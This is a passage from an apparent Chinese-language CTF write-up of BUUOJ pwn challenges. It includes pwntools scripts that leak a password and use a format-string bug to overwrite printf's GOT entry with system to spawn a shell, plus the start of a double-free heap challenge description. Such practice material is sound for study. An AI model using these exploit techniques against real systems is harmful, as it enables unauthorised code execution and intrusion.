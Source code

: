 # buu084-picoctf_2018_leak_me
这道题利用strcat函数即可泄露口令。虽然每一次生成靶机的时候口令都不一样，但方便的做法就是先泄露一次然后再跑一次直接输口令。
```python
from pwn import *
context.log_level = 'debug'

# io = process('./PicoCTF_2018_leak-me')
io = remote('node4.buuoj.cn', 28532)

password = b'a_reAllY_s3cuRe_p4s$word_f85406'

io.sendlineafter(b'name?\n', cyclic(256))

io.sendline(password)
io.interactive()
```

# buu085-inndy_echo
格式化字符串漏洞。
```python
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'

# io = process('./echo')
io = remote('node4.buuoj.cn', 28212)
elf = ELF('./echo')

io.sendline(b'%8$s' + p32(elf.got['fgets']))
fgets = u32(io.recv(4))
libc = LibcSearcher('fgets', fgets)
base = fgets - libc.dump('fgets')
system = base + libc.dump('system')
payload = fmtstr_payload(7, {elf.got['printf']: system})

io.sendline(payload)
io.sendline(b'/bin/sh')
io.interactive()
```

# buu086-hitcontraining_unlink
同第73题。

# buu087-ciscn_2019_final_3
从表面上来看，这是一道C++ pwn，但实际上就是一个普通的堆题。

只提供了2个选项：添加chunk和删除chunk，其中删除可以有double free，分配chunk只能分配0x78以内大小的chunk。每一次分配结束之后会返回堆地址。虽然本题我们获得了堆地址，但是程序和libc的加载地址都未知，而且看上去无法读取内存内容。
